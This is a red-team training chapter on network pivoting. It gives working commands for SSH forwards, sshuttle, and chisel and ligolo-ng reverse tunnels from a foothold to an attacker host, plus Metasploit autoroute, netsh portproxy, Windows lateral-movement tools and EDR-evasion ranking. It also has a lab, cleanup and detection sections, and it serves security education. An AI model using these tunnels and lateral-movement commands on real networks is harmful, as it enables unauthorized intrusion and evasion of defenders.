

# 🔀 Network Pivoting

> Real targets aren't single boxes — they're segmented networks of dev/test/prod, DMZ/intranet, on-prem/cloud. The first foothold gives you access to the perimeter; everything interesting is behind another firewall. **Pivoting** is the discipline of using one compromised host as a stepping stone into the next subnet.

---

## 1. The Pivot Mental Model



You compromised C. Now you need to reach F, G, H — but only C can route to them, and your shell on C is one process. You need to **route traffic** from your attacker host through C into the internal networks.

Three families of techniques:

1. **Port forwarding** — single port at a time
2. **SOCKS proxying** — full TCP routing through the foothold
3. **Layer-3 tunnels** — full IP routing (`tun`/`tap`)

---

## 2. SSH-Based Pivoting

If the foothold is a Linux box you have SSH on, SSH alone is enough.

### 2.1 Local port forward (`-L`)

Make a remote port reachable on your local box:

```bash
# Make 10.0.5.5:3306 (internal MySQL) appear at attacker:3306
ssh -L 3306:10.0.5.5:3306 user@foothold

# Then on attacker:
mysql -h 127.0.0.1 -u root -p
```

### 2.2 Remote port forward (`-R`)

Foothold can't reach you (you're on Internet, foothold is behind NAT)? **You** SSH out to a server *they* control? Reverse it: foothold opens to you.

```bash
# On foothold (which can SSH out)
ssh -R 4444:127.0.0.1:4444 attacker@your.server

# Now attacker:4444 connects back to foothold:4444
```

### 2.3 Dynamic / SOCKS forward (`-D`)

The most useful. Open a SOCKS proxy on attacker, route everything through foothold:

```bash
ssh -D 1080 user@foothold

# Then on attacker, with proxychains:
proxychains nmap -sT -Pn 10.0.5.0/24
proxychains curl http://10.0.5.10/
```

`/etc/proxychains.conf`:

```
socks5  127.0.0.1 1080
```

This is the bread and butter of internal pivoting from a Linux foothold.

### 2.4 sshuttle — VPN over SSH

`sshuttle` builds on dynamic-forward to give you a *transparent route*:

```bash
sshuttle -r user@foothold 10.0.5.0/24 10.0.6.0/24
# Now your attacker box routes 10.0.5/24 and 10.0.6/24 directly through foothold
```

No `proxychains` wrapping needed — your tools just work. Best for any case where you have SSH.

---

## 3. Chisel — TCP Tunnels Over HTTP

When SSH isn't available (Windows-only foothold, restricted egress allowing only HTTP/443), use **chisel**:

```bash
# On attacker (server)
chisel server -p 8080 --reverse

# On foothold (client) — connect back, set up reverse SOCKS
chisel client http://attacker:8080 R:1080:socks
```

Now `socks5://127.0.0.1:1080` on the attacker is a SOCKS proxy that exits the foothold. Wrap with `proxychains` like the SSH case.

Chisel's reverse mode is critical when foothold can't accept inbound. The client → server connection is a single TCP stream that fits through any forward proxy — all your other traffic multiplexes on top.

---

## 4. ligolo-ng — The Modern Choice

**ligolo-ng** is what most red teams use in 2026. It's a TCP tunnel that creates a virtual network interface on the attacker — same UX as `sshuttle` but works from Windows, no SSH.

```bash
# Attacker (proxy server)
sudo ./proxy -selfcert -laddr 0.0.0.0:11601

# Foothold (agent — Windows or Linux binary)
./agent -connect attacker:11601 -ignore-cert

# In ligolo proxy CLI
session 1
ifconfig                                # discover foothold's interfaces
listener_add --addr 0.0.0.0:80 ...      # if you want reverse port forwards
start                                   # bring the tunnel up

# Now on attacker, route the internal subnet through the tunnel
sudo ip route add 10.0.5.0/24 dev ligolo
```

You now have full IP-level routing. `nmap`, `nxc`, RDP — everything works.

This is the cleanest, fastest, most reliable pivot for modern engagements.

---

## 5. Metasploit Pivoting

Built-in. After getting a Meterpreter session:

```text
meterpreter > run autoroute -s 10.0.5.0/24
meterpreter > background

# Now Metasploit modules route via that session
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 10.0.5.0/24
msf > run

# SOCKS for non-MSF tools
msf > use auxiliary/server/socks_proxy
msf > set VERSION 5
msf > run
```

The downside: only works for Metasploit-aware traffic. For real engagement-grade pivoting, Cobalt Strike's `socks` command is similar.

---

## 6. Port-Forward Specifics for Windows Footholds

When your foothold is Windows and you don't have admin (or want to stay quiet):

```cmd
:: netsh portproxy — built-in, requires admin
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=0.0.0.0 connectport=3389 connectaddress=10.0.5.10
netsh interface portproxy show v4tov4
:: cleanup:
netsh interface portproxy delete v4tov4 listenport=4444 listenaddress=0.0.0.0
```

```cmd
:: Plink (PuTTY's CLI ssh) — single binary you can drop
plink.exe -ssh -L 3389:10.0.5.10:3389 user@external-jumpbox.com -pw password
```

For broader needs without admin: chisel.exe, ligolo agent.exe, or socat.

---

## 7. Lateral Movement on Windows Domains

Once you have admin creds, move sideways using the existing AD protocols:

| Method | Tool / module | Auth |
|---|---|---|
| **psexec-style** | `impacket-psexec`, `nxc smb -x`, Cobalt Strike `psexec` | NTLM hash or password |
| **WMI** | `impacket-wmiexec`, `nxc wmi -x` | NTLM hash or password |
| **DCOM (MMC, ShellBrowserWindow)** | `impacket-dcomexec` | NTLM hash or password |
| **WinRM (5985/5986)** | `impacket-evil-winrm`, `evil-winrm` (Ruby) | NTLM, Kerberos, password |
| **RDP (3389)** | `xfreerdp`, mstsc.exe | Password / smartcard / TGT |
| **Remote services (`schtasks`, `sc`)** | `schtasks /S target /tn ...`, `sc \\target create ...` | Admin rights |
| **Pass-the-Ticket** | export TGT, set `KRB5CCNAME`, run a tool with `-k` | Stolen ticket |

The "OPSEC ladder" of noisiness:

```
RDP (most logged, interactive)
└─ WinRM (well-logged, kerberos-friendly)
   └─ WMI (lightly logged in many fleets)
      └─ DCOM (less common; sometimes evades EDR)
         └─ Process injection from existing process (advanced)
```

---

## 8. DNS / ICMP Tunneling (When Egress Is Blocked)

When even HTTP/443 is filtered/inspected, fall back to:

- **DNS tunneling** — encode TCP-over-DNS-queries; `iodine`, `dnscat2`. Slow but punches through almost anything.
- **ICMP tunneling** — `ptunnel`, `icmpsh`. Often works when DNS is also restricted.

These are slow (a few KB/s) and noisy in modern fleets, but in air-gapped or heavily filtered networks they're sometimes the only option.

For research-style ops, **HTTP-over-HTTPS via Cloudflare/Cloudfront fronting** (domain fronting) is a pre-blocked-by-default approach — it lets your traffic appear to be going to a legitimate CDN.

---

## 9. Cleanup

Whatever you set up, you tear down. Document every port forward, every fake user, every persistence mechanism, and remove them at the engagement's end. Leaving behind a netsh portproxy or a pwn$ machine account is the difference between a clean engagement and a year-end incident response cycle.

A simple "cleanup checklist" at the top of your engagement doc:

```text
[ ] Remove SOCKS / chisel / ligolo agents from victim hosts
[ ] Remove netsh portproxy entries
[ ] Remove created scheduled tasks
[ ] Remove created services
[ ] Remove added local/domain users
[ ] Remove SSH keys added to authorized_keys
[ ] Remove machine accounts (RBCD trick)
[ ] Remove certificate templates / issued certs
[ ] Restore modified ACLs
[ ] Confirm with client before declaring done
```

---

## 10. Hands-On Lab

Setup:
- 3 VMs in your lab — attacker (Kali), foothold (Linux or Windows), internal (Windows server)
- Network: foothold has 2 NICs — one on attacker subnet, one on internal subnet (which attacker can't reach directly)

Practice:
1. SSH `-D` SOCKS through foothold; nmap the internal.
2. `sshuttle` to the internal subnet; nmap with no proxychains.
3. Drop `chisel` on foothold; reverse SOCKS back to attacker.
4. Drop `ligolo-ng` agent on foothold; route the internal subnet.
5. From attacker, RDP to internal Windows server through ligolo.
6. With Windows foothold: `netsh portproxy` to expose internal RDP.

Time: a full afternoon. Repeat the patterns until they're muscle memory.

---

## 11. Detection (Blue-Team View)

| Pivot signal | How to detect |
|---|---|
| Long-lived outbound TCP from server | NetFlow anomaly; alert on flows > 1 hour from non-user hosts |
| Outbound to non-corporate IP from internal box | Egress monitoring; whitelist destinations from each tier |
| New listening port on a server | Sysmon Event 5158 (network bind) |
| Unusual `psexec`-style auth across hosts | Security 4624 type 3 from one source to many destinations |
| Internal port scan from a server | Lateral-movement detection rules in Defender for Identity |
| New SMB connection to admin shares | Security 5140; correlate by source |

The defensive baseline: assume initial compromise, block lateral movement. Tier-0 isolation, micro-segmentation, EDR everywhere, deception (honeypots in normal subnets that flag any touch).

---

## 12. Interview Questions

- What's the difference between local, remote, and dynamic SSH port-forwards?
- A foothold with no SSH, only HTTP/443 outbound. How do you SOCKS through it?
- What does ligolo-ng give you that chisel doesn't?
- How does `sshuttle` differ from `ssh -D`?
- A defender sees a long-lived TCP from a database server outbound to an unknown IP. Why is that a smoking gun?
- Walk through cleaning up after a pivot.

---

## 13. Tools Quick Reference

| Tool | When |
|---|---|
| `ssh -L/-R/-D` | You have SSH. Bedrock. |
| `sshuttle` | Linux-to-Linux, transparent route |
| `chisel` | HTTP-friendly TCP tunnel; multi-platform |
| `ligolo-ng` | Modern default for red teams |
| `proxychains[-ng]` | Wrap any tool over a SOCKS proxy |
| `Metasploit autoroute / socks` | Inside MSF sessions |
| `Cobalt Strike socks/rportfwd` | Commercial alternative |
| `iodine`, `dnscat2` | DNS tunnel (last resort) |
| `netsh portproxy` | Windows built-in port forward |
| `socat` | Universal Swiss-army; complex chains |

---

## 14. Further Reading

- HackTricks pivoting page — book.hacktricks.wiki
- "0xperator pivoting cheat sheet" series
- ZeroPointSecurity CRTO module on pivoting
- The Cobalt Strike opsec docs (free read; teaches the discipline)

---

> Phase 3 ends here. You can recon a target, exploit a web app, escalate on Linux and Windows, take an Active Directory forest, attack Wi-Fi, audit mobile apps, and pivot through internal networks. Phase 4 takes you into specializations — cloud, malware analysis, RE, exploit dev, IoT, and AI security.

[← Mobile App Security](mobile.md) · [Phase 4 →](../04-specializations/index.md)
